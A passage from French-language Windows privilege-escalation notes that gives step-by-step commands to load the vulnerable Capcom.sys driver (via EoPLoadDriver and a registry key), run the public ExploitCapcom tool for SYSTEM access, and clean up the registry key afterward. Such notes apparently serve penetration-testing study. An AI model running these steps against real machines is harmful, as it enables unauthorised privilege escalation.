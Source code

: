 ### 8. Vérifier que le driver Capcom est bien chargé

```powershell
.\DriverView.exe /stext drivers.txt
```

```powershell
cat drivers.txt | Select-String -pattern Capcom
```

### 9. Compiler ExploitCapcom

https://github.com/tandasat/ExploitCapcom

### 10. Lancer l'Exploit

```powershell
.\ExploitCapcom.exe
```


## Automatiser l'activation du privilege et tout ce qui s'en suit

https://github.com/TarlogicSecurity/EoPLoadDriver/

### 1. Activer le privilège, créer la clé de registre et charger le driver

```cmd
EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys
```

### 2. Compiler ExploitCapcom

https://github.com/tandasat/ExploitCapcom

### 3. Lancer l'Exploit

```powershell
.\ExploitCapcom.exe
```


## Supprimer la clé de registre

```cmd
reg delete HKCU\System\CurrentControlSet\Capcom
```



---

# Server Operators
